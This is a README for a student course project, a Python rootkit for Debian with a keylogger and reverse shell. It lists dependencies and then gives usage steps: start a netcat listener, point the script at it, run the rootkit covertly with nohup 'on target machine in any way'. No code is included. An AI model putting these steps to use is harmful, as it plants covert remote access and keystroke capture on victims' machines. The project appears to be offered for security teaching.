 <h1>KEYLOGGER</h1>
<strong>This program is created for educational uses only</strong>

<h3>Authors</h3>
Matthías Dan Flemmingsson<br>
Þorsteinn Sæmundsson<br>
Úlfur Þór Þráinsson

<h3>Description</h3>
Basic rootkit with reverse shell and keylogger on a file system level for Linux(debian).<br>
Project is done as a final project at the university of Iceland for the class Öryggi tölvukerfa(HBV602M)<br>
Program assumes that its run on a Linux(debian) distrobution. Untested or will not run on other operating systems or distrobutions<br>

<h3>Installation - No virtualenviroment</h3>
Have a running version of Python 2.7<br>
Install pip, sudo apt install python-pip<br>
Install python-xlib, pip install python-xlib<br>
Install pyxhook, pip install pyxhook<br>

<h3>Installation - virtualenviroment</h3>
Install pip
Install virtualenviroment, sudo apt-get install virtualenv
Setup virtualenv in a folder, virtualenv -p python2 VENV
Start VENV, source VENV/bin/activate
Install dependencies, pip install -r requirements.txt

<h3>How to use</h3>
Start a netcat on your computer with your ip and some open unused port. Edit startRoot.sh to your ip and same port as it is set to loopback and port 12346 by default.<br>
Open program on target machine in any way(Or local machine), just get it to run.<br>
You can also run the rootkit with "nohup python rootkit.py (IP) (Port) &" if you want to do this manually.<br>

<h3>Some tips for troubleshooting</h3>
If you cant run the program without shellscript orthe shellscript itself wont run do:<br>
1. chmod +x startRoot.sh<br>
2. chmod +x rootkit.py<br>
3. chmod +x keylogger.py<br>
This should get things running for all methods starting the program<br>

<h3>Dependencies</h3>
-Python 2.7<br>
-Pip for python<br>
-python-xlib(pip)<br>
-pyxhook(pip)<br>
-(option)Virtualenv for ease of install of the above, use requirements.txt

